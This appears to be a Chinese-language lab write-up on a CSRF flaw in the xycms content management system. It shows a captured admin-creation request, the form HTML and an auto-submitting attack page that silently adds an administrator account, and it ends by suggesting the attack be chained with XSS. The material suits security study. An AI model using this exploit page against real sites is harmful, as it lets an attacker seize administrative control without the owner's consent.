


xycms csrf漏洞练习:
==========================

添加管理员 抓包分析:

```html
POST http://192.168.48.1:8002/admin/admin_manage.asp?act=add HTTP/1.1
Host: 192.168.48.1:8002
Connection: keep-alive
Content-Length: 77
Cache-Control: max-age=0
Origin: http://192.168.48.1:8002
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.48.1:8002/admin/admin_manage.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: LZTGOGIBLEJBJVNTDZVD=SUSRTZIHRHIMWCOSTHDJMFEECIYNLZOLRUYBQCWY

admin=admin1&password=123456&password3=123456&button=%CC%E1%BD%BB%CA%FD%BE%DD
```

审查元素查看原html内容:
```html
<tr style="background-color: rgb(241, 245, 248);" onmouseout="style.backgroundColor='#F1F5F8'" bgcolor="#F1F5F8">
    <td class="td" height="25" width="10%">管理员帐号：</td>
    <td class="td" width="90%">
        <input name="admin" size="30" type="text"> * [管理帐号只能由字母、数字及下划线组成]</td>
</tr>
<tr style="background-color: rgb(255, 255, 255);" onmouseout="style.backgroundColor='#FFFFFF'" bgcolor="#FFFFFF">
    <td class="td" height="13" width="10%">登录密码：</td>
    <td class="td">
        <input name="password" size="30" type="text"> * </td>
</tr>
<tr style="background-color: rgb(255, 255, 255);" onmouseout="style.backgroundColor='#FFFFFF'" bgcolor="#FFFFFF">
    <td class="td" height="12" width="10%">确认密码：</td>
    <td class="td">
        <input name="password3" size="30" type="text"> * </td>
</tr>
<tr style="background-color: rgb(255, 255, 255);" onmouseout="style.backgroundColor='#FFFFFF'" bgcolor="#FFFFFF">
    <td class="td" height="25">&nbsp;</td>
    <td class="td">
        <input name="button" id="button" value="提交数据" class="button" type="submit">
    </td>
</tr>
```

构造csrf攻击页面:

```html
xycms_csrf_add_admin.html

<!DOCTYPE html>
<html>
<head>
	<title>点了就傻逼了</title>
</head>
<body>
    <form action="http://192.168.48.1:8002/admin/admin_manage.asp?act=add" method="post" name="add">
        <input type="text" name="admin" value="admin8" />
        <input name="password" type="text" value="123456"  />
        <input type="text" name="password3" value="123456" />
        <input name="button" id="button" value="提交数据" class="button" type="submit">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```


这里管理员能弹窗看到添加管理员的提示,只适合添加管理员不提示的cms。

可以结合xss 让管理员执行:

